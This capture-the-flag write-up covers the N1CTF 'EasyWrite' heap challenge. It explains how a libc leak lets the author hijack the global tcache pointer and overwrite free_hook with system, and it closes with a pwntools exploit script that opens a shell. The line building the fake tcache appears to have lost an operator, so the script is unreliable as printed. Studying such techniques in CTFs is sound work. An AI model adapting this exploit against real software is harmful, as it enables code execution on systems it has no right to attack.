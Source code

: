 # EasyWrite

The past weekend I played N1CTF along with my teammates, I ended up spending most of the time in EasyWrite and Signin. In this writeup I’ll be explaining about my approach for the EasyWrite, so let’s get started!

## Initial Click

All the useful mitigation are enabled other than FORTIFY. Also, the libc version required is libc-2.31. In a nutshell, the binary does the follows:

1. Gives us the libc leak directly
2. We can input 0x299 bytes which is stored on the heap [chunk1]
3. Asks us to enter an address [addr1] where contents of chunk1 are copied to
4. Allocated a chunk of size 0x30 [chunk2]. We can write 0x2f bytes to this chunk.
5. chunk2 is freed.

From this I could deduce that overwriting free_hook could be the key. But it wasn’t really that easy.

## What did not work?

On the first try, I gave addr1 as free_hook_ and the contents of chunk1 as address of system/ shellcode what not. I ended up with a SIGSEV because this was bound not to work as the binary was executing the chunk1 address and NX was enabled. I couldn’t find any other targets for a long while.

Another thing to try out was the controlling tcache structure because we could utilize the write happening on chunk2. Basically, we had to control malloc to help us in getting an arbitrary write. How about getting an allocation on free_hook_ and then overwriting it to get a shell? Not that easy.

## Crux: Controlling Tcache

We know that it’s the tcache_perthread_struct (stored on the heap) which kind of keeps a track of the count of chunks are present in the bin and also which one to be recycled on the next call. But in the present scenario we cannot control it because we do not have any way to get heap leaks but we have the libc leaks. Is there any way to control this region if we are armed only with libc leaks?

I found a mmap’d address which stores the pointer to the [tcache_perthread structure] -0x10 address. If we could overwrite this address with a chunk1 which has our fake tcache_structure (where the next 0x30 size chunk to be recycled is our free_hook_) then we could get the desired arbitrary write. In my understanding this mmap region is the global Tcache pointer which stores the pointer to the tcache structure (one stored on heap). More details can be found on another writeup on the same which gives a detailed understanding: https://ctftime.org/writeup/24295 .

## What happened next?

Unfortunately, I was not able to complete the challenge during the CTF. Here, none of the one_gadgets come to handy so one must overwrite free_hook_ with system but then it would call free(system) => system(system) which is really not what we desire. My teammate and I did a lot of tries on this but found it out very late that one could get the arbitrary write at free_hook -0x8 and overwrite it with “/bin/sh\x00” + libc_system_address.

Nevertheless, this was a fun challenge as I really learned something new. Also, we must learn to read the source code when all the doors seem to be closed. 

## Exploit

```python

from pwn import *
p = process("./easy",env = {"LD_PRELOAD" : "./libc-2.31.so"})
p.recvuntil("Here is your gift:")
leak = int(p.recvline().strip(),16)
print(hex(leak))
libc_start = leak - 0x08ec50
log.info("libc_start = " + hex(libc_start))
system = libc_start + 0x055410
free_hook = libc_start + 0x00000000001eeb28
tls_tcache = libc_start + 0x1f34f0
fake_tcache = p64(0x0000000100000000) + p64(0)0x82+p64(0)+ p64(free_hook-0x8)
p.sendafter("Input your message:",fake_tcache)
p.sendafter("Where to write?:",p64(tls_tcache))
p.sendafter("Any last message?:","/bin/sh\x00"+p64(system))
p.interactive()
```
